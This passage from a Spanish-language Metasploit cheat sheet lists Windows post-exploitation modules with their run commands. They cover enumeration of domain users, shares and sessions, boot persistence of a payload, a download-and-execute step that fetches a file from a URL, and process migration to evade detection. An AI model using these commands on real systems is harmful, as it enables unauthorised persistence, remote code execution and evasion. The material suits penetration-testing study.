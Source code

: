        ```bash
       run post/windows/gather/checkvm
       ```
3. **Módulo: `post/windows/gather/enum_domain_users`**
   * **Ruta:** `use post/windows/gather/enum_domain_users`
   * **Descripción:** Enumera los usuarios del dominio en la máquina objetivo.
   *   **Uso:**

       ```bash
       run post/windows/gather/enum_domain_users
       ```
4. **Módulo: `post/windows/gather/enum_shares`**
   * **Ruta:** `use post/windows/gather/enum_shares`
   * **Descripción:** Enumera los recursos compartidos en la máquina objetivo.
   *   **Uso:**

       ```bash
       run post/windows/gather/enum_shares
       ```
5. **Módulo: `post/windows/gather/enum_logged_on_users`**
   * **Ruta:** `use post/windows/gather/enum_logged_on_users`
   * **Descripción:** Enumera los usuarios que han iniciado sesión en la máquina objetivo.
   *   **Uso:**

       ```bash
       run post/windows/gather/enum_logged_on_users
       ```
6. **Módulo: `post/windows/manage/persistence_exe`**
   * **Ruta:** `use post/windows/manage/persistence_exe`
   * **Descripción:** Establece persistencia ejecutando un payload cada vez que se inicia la máquina.
   *   **Uso:**

       ```bash
       run post/windows/manage/persistence_exe
       ```
7. **Módulo: `post/windows/manage/download_exec`**
   * **Ruta:** `use post/windows/manage/download_exec`
   * **Descripción:** Descarga y ejecuta un archivo en la máquina objetivo.
   *   **Uso:**

       ```bash
       run post/windows/manage/download_exec URL=http://path/to/file.exe
       ```
8. **Módulo: `post/windows/manage/migrate`**
   * **Ruta:** `use post/windows/manage/migrate`
   * **Descripción:** Cambia a otro proceso en la máquina objetivo para evadir detección.
   *   **Uso:**

       ```bash
       run post/windows/manage/migrate PROCESS_ID
       ```

Estos módulos de post-explotación son esenciales para realizar tareas específicas después de comprometer una máquina y proporcionan funcionalidades avanzadas en Metasploit.
